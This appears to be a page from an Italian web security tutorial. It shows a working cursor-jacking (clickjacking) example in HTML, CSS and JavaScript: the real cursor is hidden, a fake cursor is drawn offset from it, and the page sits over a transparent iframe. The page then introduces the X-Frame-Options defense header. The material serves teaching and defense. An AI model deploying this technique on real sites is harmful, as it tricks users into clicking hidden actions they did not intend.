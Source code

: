 ### 19.2.3 - Cursor Jacking

**Mouse pointer manipulation:**

```html
<style>
    body {
        cursor: none; /* Nasconde cursore reale */
    }
    
    #fake-cursor {
        position: absolute;
        width: 20px;
        height: 20px;
        background: url('cursor.png');
        pointer-events: none;
        z-index: 10000;
    }
    
    #target-iframe {
        position: absolute;
        opacity: 0;
        z-index: 999;
    }
</style>

<div id="fake-cursor"></div>
<iframe id="target-iframe" src="https://site.com/action"></iframe>

<script>
    // Fake cursor offset da posizione reale
    document.addEventListener('mousemove', (e) => {
        const fakeCursor = document.getElementById('fake-cursor');
        fakeCursor.style.left = (e.clientX + 50) + 'px'; // Offset
        fakeCursor.style.top = (e.clientY + 50) + 'px';
    });
    
    // User vede cursore spostato
    // Clicca dove PENSA sia il bottone
    // In realtà clicca altrove (iframe nascosto)
</script>
```

---

## 19.3 Defense: X-Frame-Options

### 19.3.1 - Header X-Frame-Options

**HTTP Header che impedisce embedding in iframe:**

```http
X-Frame-Options: DENY
```
